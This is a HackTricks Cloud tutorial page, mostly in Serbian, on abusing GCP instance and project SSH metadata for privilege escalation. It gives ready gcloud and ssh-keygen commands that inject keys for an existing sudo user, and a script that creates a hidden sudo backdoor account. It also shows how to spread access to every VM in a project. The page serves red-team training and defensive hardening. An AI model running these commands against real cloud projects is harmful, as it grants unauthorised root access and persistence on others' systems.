 # GCP - Dodavanje prilagođenih SSH metapodataka

## GCP - Dodavanje prilagođenih SSH metapodataka

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih bezbednosnih rizika ako napadač dobije potrebne dozvole**.

#### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Kritična komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance za **ažuriranja autorizovanih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, mogao bi da natera daemon da pronađe novi javni ključ, koji će biti obrađen i **integrisan u lokalni sistem**. Ključ će biti dodat u `~/.ssh/authorized_keys` datoteku **postojećeg korisnika ili potencijalno kreirati novog korisnika sa `sudo` privilegijama**, u zavisnosti od formata ključa. I napadač će moći da kompromituje host.

#### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Istražite postojeće SSH ključeve na instanci:**
*   Izvršite komandu da opišete instancu i njene metapodatke kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu biće pod `metadata`, posebno ključ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Obratite pažnju na format SSH ključeva: korisničko ime prethodi ključe, odvojeno dvotačkom.
2. **Pripremite tekstualnu datoteku za SSH ključ metapodatke:**
* Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku pod imenom `meta.txt`. Ovo je neophodno za očuvanje postojećih ključeva dok dodajete nove.
3. **Generišite novi SSH ključ za ciljanog korisnika (`alice` u ovom primeru):**
*   Koristite komandu `ssh-keygen` da generišete novi SSH ključ, osiguravajući da se polje komentara (`-C`) poklapa sa ciljnim korisničkim imenom.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodajte novi javni ključ u `meta.txt`, imitujući format koji se nalazi u metapodacima instance.
4. **Ažurirajte SSH ključ metapodatke instance:**
*   Primijenite ažurirane SSH ključ metapodatke na instancu koristeći komandu `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Pristupite instanci koristeći novi SSH ključ:**
*   Povežite se na instancu putem SSH koristeći novi ključ, pristupajući shell-u u kontekstu ciljanog korisnika (`alice` u ovom primeru).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Kreirajte novog privilegovanog korisnika i dodajte SSH ključ**

Ako nijedan zanimljiv korisnik nije pronađen, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti domet SSH pristupa na više Virtuelnih Mašina (VM) u cloud okruženju primenom **SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala SSH ključeve na nivou projekta. Evo sažetog vodiča:

1. **Primena SSH ključeva na nivou projekta:**
*   Koristite komandu `gcloud compute project-info add-metadata` da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da SSH ključevi budu prepoznati na svim VM-ovima u projektu, osim ako VM nema omogućenu opciju "Blokiraj SSH ključeve na nivou projekta".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH u instance koristeći ključeve na nivou projekta:**
* Sa SSH ključevima na nivou projekta, možete SSH u bilo koju instancu unutar projekta. Instance koje ne blokiraju ključeve na nivou projekta će prihvatiti SSH ključ, omogućavajući pristup.
* Direktna metoda za SSH u instancu je korišćenje komande `gcloud compute ssh [INSTANCE]`. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta da pokuša pristup.

## Reference

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
